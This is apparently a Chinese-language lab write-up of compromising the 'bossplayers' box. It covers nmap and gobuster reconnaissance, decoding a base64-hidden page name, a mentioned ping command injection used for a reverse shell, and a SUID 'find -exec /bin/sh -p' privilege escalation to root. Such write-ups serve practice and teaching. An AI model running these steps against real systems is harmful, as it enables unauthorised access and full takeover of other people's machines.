





## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 -p- 10.10.10.27
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-09 06:19 EST
Nmap scan report for 10.10.10.27
Host is up (0.00084s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:7B:83:8C (VMware)

Nmap done: 1 IP address (1 host up) scanned in 6.05 seconds
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p22,80 10.10.10.27
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-09 06:31 EST
Nmap scan report for 10.10.10.27
Host is up (0.0010s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 ac:0d:1e:71:40:ef:6e:65:91:95:8d:1c:13:13:8e:3e (RSA)
|   256 24:9e:27:18:df:a4:78:3b:0d:11:8a:92:72:bd:05:8d (ECDSA)
|_  256 26:32:8d:73:89:05:29:43:8e:a1:13:ba:4f:83:53:f8 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:7B:83:8C (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.15 seconds

┌──(kali㉿kali)-[~]
└─$ sudo nmap --script vuln -p 22,80 10.10.10.27           
[sudo] kali 的密码：
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-09 06:31 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.27
Host is up (0.00076s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /logs.php: Logs
|_  /robots.txt: Robots file
MAC Address: 00:0C:29:7B:83:8C (VMware)
```
其实看到这里应该就只有去目录爆破了

## 目录爆破

前面看到了php和robots
那么使用指定php扫描
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.27 -x php,txt,zip,rar,sql -q           
/.php                 (Status: 403) [Size: 290]
/robots.txt           (Status: 200) [Size: 53]
/logs.php             (Status: 200) [Size: 34093]
/.php                 (Status: 403) [Size: 290]
/server-status        (Status: 403) [Size: 299]
```
目录爆破过程中看了一眼robots.txt

????
这怎么直接给密码了

bullshit，是一个没用的信息
然而当我使用curl命令去访问靶机时，我才发现，源码中很下面的地方藏了一个密文
```bash
 <!--WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK-->
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ echo 'WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK' |base64 -d
ZDI5eWEybHVaMmx1Y0hKdlozSmxjM011Y0dod0NnPT0K
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ echo 'ZDI5eWEybHVaMmx1Y0hKdlozSmxjM011Y0dod0NnPT0K' |base64 -d                
d29ya2luZ2lucHJvZ3Jlc3MucGhwCg==
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ echo 'd29ya2luZ2lucHJvZ3Jlc3MucGhwCg==' |base64 -d
workinginprogress.php
```
那么根据密文信息去workinginprogress.php

提示test ping command

这里是看了题解的
确实没想到
## 反弹shell

hackbar执行一下url编码
kali接收到shell
## find提权
```bash
www-data@bossplayers:/var/www/html$ find / -perm -04000 -type f 2>/dev/null
/usr/bin/mount
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chsh
/usr/bin/grep
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/find
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
www-data@bossplayers:/var/www/html$ find . -exec /bin/sh -p \; -quit
# whoami
root
# cd /root
# ls -la
total 28
drwx------  3 root root 4096 Mar 10  2024 .
drwxr-xr-x 18 root root 4096 Sep 28  2019 ..
-rw-------  1 root root  929 Sep 28  2019 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Mar 10  2024 .local
-rw-r--r--  1 root root  148 Aug 18  2015 .profile
-rw-r--r--  1 root root   25 Sep 28  2019 root.txt
# cat root.txt
Y29uZ3JhdHVsYXRpb25zCg==
# echo 'Y29uZ3JhdHVsYXRpb25zCg==' |base64 -d
congratulations
```